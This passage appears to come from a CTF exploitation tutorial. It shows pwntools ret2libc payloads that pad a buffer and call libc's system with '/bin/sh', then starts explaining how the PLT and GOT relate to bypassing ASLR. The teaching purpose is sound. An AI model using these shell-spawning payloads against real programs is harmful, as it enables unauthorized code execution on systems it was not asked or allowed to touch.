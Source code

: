 ```python
```

#### 64-bit

Try it yourself :)

[aslr-64](../assets/aslr-64.zip)

#### Using pwntools

If you prefer, you could have changed the following payload to be more pwntoolsy:

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

Instead, you could do:

```python
binsh = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

p.sendline(rop.chain())
```

The benefit of this is it's (arguably) more readable, but also makes it much easier to reuse in 64-bit exploits as all the parameters are automatically resolved for you.

### PLT and GOT

> Bypassing ASLR

The PLT and GOT are sections within an ELF file that deal with a large portion of the **dynamic linking**. Dynamically linked binaries are more common than statically linked binary in CTFs. The purpose of **dynamic linking** is that binaries do not have to carry all the code necessary to run within them - this reduces their size substantially. Instead, they rely on system libraries (especially `libc`, the C standard library) to provide the bulk of the functionality. For example, each ELF file will not carry its own version of `puts` compiled within it - it will instead dynamically link to the `puts` of the system it is on. As well as smaller binary sizes, this also means the user can continually upgrade their libraries, instead of having to redownload all the binaries every time a new version comes out.

**So when it's on a new system, it replaces function calls with hardcoded addresses?**

Not quite.

The problem with this approach is it requires `libc` to have a constant base address, i.e. be loaded in the same area of memory every time it's run, but remember that [***ASLR\***](https://en.wikipedia.org/wiki/Address_space_layout_randomization) exists. Hence the need for *dynamic* linking. Due to the way ASLR works, these addresses need to be resolved *every time the binary is run*. Enter the PLT and GOT.
